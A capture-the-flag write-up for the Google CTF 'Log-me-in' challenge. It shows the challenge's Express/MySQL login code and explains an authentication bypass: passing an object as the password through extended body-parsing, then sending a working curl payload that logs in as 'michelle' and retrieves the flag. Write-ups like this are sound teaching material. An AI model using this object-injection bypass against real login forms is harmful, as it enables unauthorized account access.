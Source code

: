 # 

Author: [roerohan](https://github.com/roerohan)



# Requirements

- Express.js
- Body Parser

# Source

- https://log-me-in.web.ctfcompetition.com/

```
Log in to get the flag
```

```js
/**
 * @fileoverview Description of this file.
 */

const mysql = require('mysql');
const express = require('express');
const cookieSession = require('cookie-session');
const cookieParser = require('cookie-parser');
const bodyParser = require('body-parser');

const flagValue = "..."
const targetUser = "michelle"

const {
  v4: uuidv4
} = require('uuid');

const app = express();
app.set('view engine', 'ejs');
app.set('strict routing', true);

/* strict routing to prevent /note/ paths etc. */
app.set('strict routing', true)
app.use(cookieParser());

/* secure session in cookie */
app.use(cookieSession({
  name: 'session',
  keys: ['...'] //don't even bother
}));

app.use(bodyParser.urlencoded({
  extended: true
}))

app.use(function(req, res, next) {
  if(req && req.session && req.session.username) {
    res.locals.username = req.session.username
    res.locals.flag = req.session.flag
  } else {
    res.locals.username = false
    res.locals.flag = false
  }
  next()
});

/* server static files from static folder */
app.use('/static', express.static('static'))

app.use(function( req, res, next) {
  if(req.get('X-Forwarded-Proto') == 'http') {
      res.redirect('https://' + req.headers.host + req.url)
  } else {
    if (process.env.DEV) {
      return next()
    } else  {
    return next()
    }
  }
});
// MIDDLEWARE ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

/* csrf middleware, csrf_token stored in the session cookie */
const csrf = (req, res, next) => {
  const csrf = uuidv4();
  req.csrf = req.session.csrf || uuidv4();
  req.session.csrf = csrf;
  res.locals.csrf = csrf;

  nocache(res);

  if (req.method == 'POST' && req.csrf !== req.body.csrf) {
    return res.render('index', {error: 'Invalid CSRF token'});
  }

  next();
}

/* disable cache on specifc endpoints */
const nocache = (res) => {
  res.setHeader('Cache-Control', 'no-store, no-cache, must-revalidate, proxy-revalidate');
  res.setHeader('Pragma', 'no-cache');
  res.setHeader('Expires', '0');
}

/* auth middleware */
const auth = (req, res, next) => {
  if (!req.session || !req.session.username) {
    return res.render('index', {error:"You must be logged in to access that"});
  }
  next()
}

// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~`
app.get('/logout', (req, res) => {
  req.session = null;
  res.redirect('/');
});


app.get('/', csrf, (req, res) => {
  res.render('index');
});

app.get('/about', (req, res) => {
  res.render('about');

});
app.get('/me', auth, (req, res) => {
  res.render('profile');
});

app.get('/flag', csrf, auth, (req, res) => {
  res.render('premium')
});

app.get('/login', (req, res) => {
  res.render('login');
});

app.post('/login', (req, res) => {
  const u = req.body['username'];
  const p = req.body['password'];

  const con = DBCon(); // mysql.createConnection(...).connect()

  const sql = 'Select * from users where username = ? and password = ?';
  con.query(sql, [u, p], function(err, qResult) {
    if(err) {
      res.render('login', {error: `Unknown error: ${err}`});
    } else if(qResult.length) {
      const username = qResult[0]['username'];
      let flag;
      if(username.toLowerCase() == targetUser) {
        flag = flagValue
      } else{
        flag = "<span class=text-danger>Only Michelle's account has the flag</span>";
      }
      req.session.username = username
      req.session.flag = flag
      res.redirect('/me');
    } else {
      res.render('login', {error: "Invalid username or password"})
    }
  });
});

/*
 * ...SNIP...
 */

```

# Exploitation

As soon as you look at the source code, you'll notice the following snippet:

```js
app.use(bodyParser.urlencoded({
  extended: true
}))
```

This tells body parser to allow arrays and objects in the request body. So you can pass things like:

```
username[]=a&username[]=b

This is interpreted as username = ['a', 'b']

Similarly, 

username[hello]=a

Is interpreted as username = {hello: 'a'}
```

Now, you see in the `/login` POST route that the output has not been stringified (no `.toString()`). Which means it is possible to pass an object in the query statement.

```js
const sql = 'Select * from users where username = ? and password = ?';
con.query(sql, [u, p], function(err, qResult) {...});
```

Now, we'll see how passing an object might help us, by referring to the `mysql` [docs](https://www.npmjs.com/package/mysql#escaping-query-values).

Take a look at this example:

```js
var post  = {id: 1, title: 'Hello MySQL'};
var query = connection.query('INSERT INTO posts SET ?', post, function (error, results, fields) {
  if (error) throw error;
  // Neat!
});
console.log(query.sql); // INSERT INTO posts SET `id` = 1, `title` = 'Hello MySQL'
```

So we can see that objects are converted into comma separated attributes. We know the username is supposed to be `michelle`, but we do not know the password. So, we can try to pass an object in the place of password, with a known attribute. So, here's the payload I tried:

```
csrf&username=michelle&password[username]=michelle
```

This makes `password` an object as shown below:

```js
{
    username: 'michelle'
}
```

Now, the query becomes something like:

```js
con.query('Select * from users where username = ? and password = ?', ['michelle', {username: 'michelle'}], function(err, qResult) {...});
```

This will bypass the password check and give you back the required user! Here's the final paylaod.

```bash
curl -i -X POST --data 'csrf&username=michelle&password[username]=michelle' "https://log-me-in.web.ctfcompetition.com/login"

HTTP/2 302 
content-type: text/plain; charset=utf-8
x-powered-by: Express
location: /me
vary: Accept
set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly
x-cloud-trace-context: 51c2e656058a1cc31a265b3a8ad0d4b1
date: Mon, 24 Aug 2020 06:53:43 GMT
server: Google Frontend
content-length: 25

Found. Redirecting to /me
```

Now, take the cookie you received and visit `/flag`.
<br />

The flag is:

``` 
CTF{a-premium-effort-deserves-a-premium-flag}
```